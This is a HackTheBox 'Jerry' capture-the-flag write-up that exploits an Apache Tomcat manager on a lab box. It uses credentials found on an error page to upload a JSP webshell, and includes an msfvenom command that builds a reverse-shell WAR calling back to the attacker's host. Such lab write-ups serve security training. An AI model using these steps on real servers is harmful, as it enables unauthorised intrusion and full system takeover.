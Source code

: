# HackTheBox - Jerry Writeup


Box author | {{< person url="https://app.hackthebox.com/users/2570" name="mrh4sh" picture="https://www.hackthebox.com/storage/avatars/03763e0eb6ceb271534e847fe104cef1.png" >}}

<!--more-->

## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


![apache default page](apache-default-install-page.png "apache default page")

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![found credentials in error page](error-page.png "found credentials in error page")

### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![upload button](upload-the-war-file-page.png "upload button")

## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![convert jsp to war file](convert-jsp-file-into-war-file.png "convert jsp to war file")

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![upload war webshell file](webshell-created-after-upload.png "upload war webshell file")

To spawn the shell, just click the `/webshell` path in the table. 


![whoami nt authority\system](run-the-whoami-in-the-webshell.png "whoami nt authority\system")

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```

![msfvenom create war payload](created-msfvenom-payload.png "msfvenom create war payload")

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![shell as nt authority\system](nc-reverse-shell-callback.png "shell as nt authority\system")
